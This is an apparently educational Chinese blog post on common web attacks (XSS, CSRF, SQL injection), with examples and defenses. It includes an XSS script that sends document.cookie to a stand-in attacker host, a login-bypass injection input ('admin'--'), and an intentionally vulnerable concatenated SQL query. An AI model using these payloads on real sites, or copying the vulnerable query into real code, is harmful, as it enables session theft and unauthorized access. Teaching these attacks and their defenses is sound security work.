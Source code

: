 ```yaml
title: web常见的攻击方式
date: 2023-10-22
categories: 前端技术
tags: [Web,http]
```

# web常见的攻击方式

## 一、是什么

Web攻击是针对用户上网行为或网站服务器等设备进行攻击的行为。如植入恶意代码，修改网站权限，获取网站用户隐私信息，破坏数据完整性或服务可用性等等。

Web应用程序的安全性是任何基于Web业务的重要组成部分。

一些常见的Web攻击包括：

1. 跨站脚本攻击（XSS）

2. 跨站请求伪造（CSRF）

3. SQL注入

## 二、跨站脚本攻击（XSS）

XSS，是一种常见的网络安全漏洞，攻击者利用这种漏洞向网页中注入恶意脚本，使得用户在访问这些网页时受到攻击。

**例子**：

假设有一个论坛网站存在XSS漏洞，攻击者在一个帖子的评论框中注入以下恶意脚本：

```html
<script>
  fetch('http://attacker-website.com/?cookie=' + document.cookie);
</script>

```

当其他用户浏览包含这个评论的帖子时，恶意脚本会将用户的Cookie信息发送到攻击者控制的服务器，攻击者就可以用这些信息进行进一步的攻击。

**分类**：

XSS攻击通常分为三种类型：存储型XSS，反射型XSS和DOM型XSS。

1. 存储型XSS：攻击者将恶意脚本存储在目标网站的数据库中，如上述例子，当用户访问包含这些恶意脚本的页面时，恶意脚本会被执行。这种攻击通常会导致用户数据泄漏、会话劫持等问题。

2. 反射型XSS：攻击者构造包含恶意脚本的URL，诱使用户点击这个URL，服务器将恶意脚本反射到游湖的浏览器中执行。这种攻击通常需要诱使用户点击特制的恶意链接。

3. DOM型XSS：这种类型的XSS攻击不涉及服务器端，而是利用前端JS代码中的漏洞，在用户浏览器中执行恶意脚本，攻击者可以通过修改页面的DOM结构来实施攻击，从而盗取用户信息或执行其他恶意操作。

**防御方法**：

1. 输入验证和过滤：对用户输入的数据进行验证和过滤，确保不接受恶意脚本。

2. 输出编码：在将用户输入数据输出到网页时，使用合适的编码方式，如HTML编码等，防止恶意脚本执行。

3. 使用安全的Cookie标记：设置Cookie的HttpOnly和Secure属性，防止被恶意脚本获取和篡改。

## 三、跨站请求伪造（CSRF）

CSRF是一种常见的网络攻击方式，它利用用户已经认证过的会话来在过户不知情的情况下执行非预期的操作。攻击者通常会诱使受害者在已经登录过的网站上点击恶意链接或访问恶意网站，从而触发对受害者账户的操作。

**例子**：

假设用户已经登录了他们的银行账户，并且银行网站存在一个漏洞，允许攻击者构造恶意链接或页面。

攻击者在一个恶意网站上放置了一个精心设计的页面，其中包含一个指向银行网站转账页面的恶意请求。攻击者通过各种方式诱使用户访问这个恶意页面，比如发送诱人的电子邮件或社交媒体消息。一旦用户访问了恶意页面，妻子的恶意请求会自动向银行发送一个转账请求，利用了用户在银行网站的已认证会话。由于用户已经在银行网站上保持了登录状态，银行网站会误认为这个转账请求是用户自己发起的，从而执行转账操作，将资金转移到攻击者控制的账户中。

**防御方法**：

1. CSRF令牌：在关键操作（比如转账）的请求中包含一个CSRF令牌，确保请求是合法的，而不是来自恶意页面。

2. 同源策略：浏览器的同源策略限制了一个网站在未经用户授权的情况下无法访问另一个网站的资源。

3. 验证来源：应用程序应该验证请求的来源，确保请求来自合法的网站而不是恶意站点。

4. 安全的Cookie策略：使用HttpOnly和Secure标志来保护Cookie，防止被恶意脚本访问。

# 四、SQL注入

SQL注入是一种常见的网络安全攻击，攻击者利用应用程序对用户输入数据的处理不当，向应用程序的数据库发送恶意的SQL查询，以获取未授权的数据或执行未经授权的操作。

**例子**：

假设有一个简单的网站，用户可以通过用户名和密码登录。网站的登录验证是通过以下SQL查询实现的：

```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```

攻击者发现该网站存在SQL注入漏洞，他可以在用户名和密码字段中输入以下内容：

- 用户名：`admin'--`

- 密码：任意密码(不需要)

当应用程序将用户名和密码插入到SQL查询中时，查询变为：

```sql
SELECT * FROM users WHERE username='admin'--' AND password=''
```

由于`--`是SQL中的注释符号，它后面的所有内容都被注释掉了，因此查询实际变成了：

```sql
SELECT * FROM users WHERE username='admin'
```

由于该查询只检查用户名而不检查密码，攻击者成功绕过了密码验证，以管理员身份登录到系统中，获取了管理员权限。

**防御方法**：

1. 参数化查询：使用参数化查询或存储过程来处理数据库查询，确保用户输入不会被解释成SQL代码。

2. 输入验证和过滤：对用户输入数据进行验证和过滤，确保只有预期的数据类型和格式被接受。

3. 错误信息处理：避免向用户返回详细的错误信息，攻击者可以利用这些信息进一步猜测和利用漏洞。

